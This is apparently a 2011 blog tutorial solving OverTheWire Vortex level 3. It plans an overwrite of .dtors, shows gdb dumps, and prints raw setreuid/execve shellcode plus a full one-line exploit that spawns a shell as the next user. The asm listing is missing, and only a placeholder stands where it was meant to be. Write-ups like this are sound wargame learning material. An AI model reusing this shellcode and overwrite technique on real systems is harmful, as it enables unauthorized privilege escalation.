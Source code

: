 Title: overthewire, vortex: level 3
Date: 2011/10/11 02:01
Author: Ken Ko
Tags: nasm, shellcode, x86, stack, overthewire.org
Category: tutorials

Trying to make sense of what's going on with the code.

<code>
// val = 31337
31337 <-- val
// *lp = &val
[val] <- *lp || lp = 31337

// **lpp = &lp; *tmp
lp <- *lpp || [lp] <-- lpp || lp <-- *lpp
// tmp = *lpp
tmp = *lpp = [lp]
// **lpp = &buf
**lpp = &lp = &buf || [buf] <-- lpp || buf <-- *lpp
// *lpp = tmp
*lpp -> buf = tmp || buf = tmp
</code>

If that helps... at all. 

Anyhow, the plan should be to overwrite .dtor and make it point to our buf[] which will contain the shellcode of seteuid() and system(). Seems like a lot more than our previous tasks, so let's write a TODO list:

<code>
1. address of .dtor (should be easy)
2. address of 0x0804....h that points to .dtor
3. overflow lpp to be that address in [2]
4. write new shellcode to include that setuid()
5. place shellcode in buf[]
6. overwrite .dtor to point to middle of buf[]
</code>

We need a pointer to __DTOR_END__ because we can't use the address directly.

<code>
080482f4 <__do_global_dtors_aux>:
 . . .
 8048303:       a1 98 94 04 08          mov    0x8049498,%eax
 . . .
 8048313:       a3 98 94 04 08          mov    %eax,0x8049498
 . . .
 804831a:       a1 98 94 04 08          mov    0x8049498,%eax
 . . .
</code>

Taking a further look:

<code>
(gdb) x/20x 0x08049490
0x8049490 <data_start>: 0x00000000      0x00000000      0x08049578      0x00007a69
(gdb) x/x 0x08049498
0x8049498 <p.0>:   0x08049578
(gdb) x/x 0x08049578
0x8049578 <__DTOR_END__>:  0x00000000
</code>

Now the 71 bytes of shellcode to include both setreuid along with the execve:

<code>
"\x31\xc0\x31\xdb\x31\xc9\xb0\x46\x66\xbb\xfa\x01\x66\xb9\xfa\x01\xcd\x80\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\xff" * 20 + "\x98\x94\x04\x08"'
</code>

Now, trial and error shows us that 140 bytes of trash is what we need to overwrite lpp. Trial and error which was done by noticing the exit codes (from gdb) and seeing that if we failed the address check, we would run into <strong>exit(2)</strong>. 

Here's the entire exploit:

<code>
vortex3@games ~ $ /vortex/level3 `python -c 'print "\x90" * 49 +  "\x31\xc0\x31\xdb\x31\xc9\xb0\x46\x66\xbb\xfa\x01\x66\xb9\xfa\x01\xcd\x80\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90" * 20 + "\x98\x94\x04\x08"'`
sh-3.2$ whoami
vortex4
sh-3.2$
</code>

And here is the asm that generated the shellcode above:

[codebox 1]
